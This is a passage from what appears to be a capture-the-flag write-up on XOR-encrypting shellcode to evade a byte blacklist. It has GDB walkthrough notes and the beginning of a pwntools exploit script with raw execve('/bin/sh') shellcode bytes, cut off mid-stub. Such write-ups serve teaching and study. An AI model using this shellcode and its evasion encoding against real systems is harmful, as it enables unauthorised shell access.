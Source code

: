 # Executing in GDB

To demonstrate the exploit I ran the final payload and set a breakpoint in GDB to observe the decryption process:

![](/public/img/shellcode-encryption/gdbbeforedec.png)

In this current state, we have reached the decryption stub, and the encrypted shellcode is still gibberish.

After stepping though the decryption stub, we can see the shellcode decrypted in memory:

![](/public/img/shellcode-encryption/gdbafterdec.png)

Now we see the original shellcode which just puts `0x3b` (the syscall number for `execve`) in `rax`, sets up the arguments for `execve` (the string `"/bin/sh"`) in the appropriate registers, and finally calls the syscall to spawn a shell.

# Conclusion

This challenge was a cool introduction to payload encryption techniques and PIC shellcode to evade simple detection mechanisms.

# Full exploit

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or 'execute', checksec=False)
context.terminal = ["kitty"]

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b * main+174
'''.format(**locals())

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"

def print_blacklisted(shellcode, blacklist):
    for i in range(len(shellcode)):
        if shellcode[i] in blacklist:
            print(f"\033[31;1;4m{hex(shellcode[i])}\033[0m", end=" ")
        else:
            print(f"{hex(shellcode[i])}", end=" ")

    print()

shellcode = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

xored_shellcode = bytes([x ^ 0xac for x in shellcode])

shellcode_stub = asm('''
call get_rip
get_rip:
```